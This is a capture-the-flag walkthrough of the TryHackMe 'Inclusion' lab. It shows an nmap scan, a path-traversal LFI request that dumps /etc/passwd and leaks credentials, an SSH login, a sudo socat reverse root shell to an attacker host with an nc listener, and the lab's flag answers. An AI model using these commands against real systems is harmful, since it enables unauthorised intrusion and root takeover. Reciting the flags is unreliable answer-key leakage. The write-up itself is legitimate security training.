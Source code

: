 # Inclusion
![](https://raw.githubusercontent.com/Adel-Ahmed777/TryHackMe-Writeups/main/TryHackMe%20Images/LFI-room-pic.png)

## Task 1
### Machine Deployment

## Task 2
### conducting nmap scan
```
sudo nmap -sC -sV -oN nmap/namp-scan 10.10.139.218

Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 16:17 AEDT
Nmap scan report for 10.10.139.218
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.41 seconds
```

### Execute an LFI attack
```
curl http://10.10.139.218/article?name=../../../../../../etc/passwd

<!DOCTYPE html>

<html>

    <body>



            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false




    </body>

</html>
```
use the found credentials to connect through ssh
```
#falconfeast:rootpassword
```
### Connect through ssh
```
ssh falconfeast@10.10.139.218
```
use the following two commands to view the user flag
```
ls
cat user.txt
```
1. User Flag
```
60989655118397345799
```

### Escalate to root privileges
Let's check what privileges the current user has through the following command:
```
sudo -l

Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
The output shows that we can execute socat on the falconfeast user. gtfobins website can provide steps pn how to use the socat tool.

First, run an netcat listener in a new terminal window:
```
nc -lvnp 1234
```
Then runf the following command on the falconfeast user from the gtfobins website after I changed the $RHOST to my tunnel ip and $RPORT to 1234.
```
sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
after that I got a root shell. Then, I made sure that the shell is stabilised:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then cd to the root directory and list the root flag
```
cd root
ls
```

2. Root Flag
```
42964104845495153909
```
